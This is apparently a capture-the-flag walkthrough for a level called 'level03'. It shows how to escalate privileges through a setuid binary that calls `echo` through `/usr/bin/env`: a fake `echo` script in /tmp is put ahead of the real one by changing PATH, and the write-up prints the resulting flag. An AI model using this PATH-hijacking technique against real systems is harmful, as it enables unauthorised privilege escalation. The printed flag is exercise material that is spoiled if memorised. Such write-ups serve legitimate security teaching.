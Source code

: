 # level03

We're presented with a binary executable, `./level03`. Executing it prints `Exploit me` to the standard output.

We can assume "Exploit me" is written somewhere in the code. It can be examined with gdb, but here, a simple `strings <executable>` might give us more information. We run :

```
strings ./level03 | grep Exploit
```

This yields `/usr/bin/env echo Exploit me`, meaning there's a string with those contents in the original program. This gives us our exploit : **this format is clearly fed directly to an executer**, like `system()`.

So what can we exploit ? The `echo` command here is executed by `/usr/bin/env` with a relative path, meaning it's entirely dependent on the env's `PATH` variable.

We can override it by creating an echo that does what *we* want (like a `getflag`) and changing the PATH. We run the following commands :

```
echo -e '#!/bin/bash\ngetflag' > /tmp/echo
chmod +x /tmp/echo
export PATH=/tmp:$PATH
./level03
```

## The flag

The executable is tricked, and we get the following flag :

```
qi0maab88jeaj46qoumi7maus
```

*Note : this only works because `./level03` sets current user to `flag03`, by using functions like `seteuid()` to our advantage. This can be seen by running `gdb ./level03` and then, in GDB, `disas main`.*
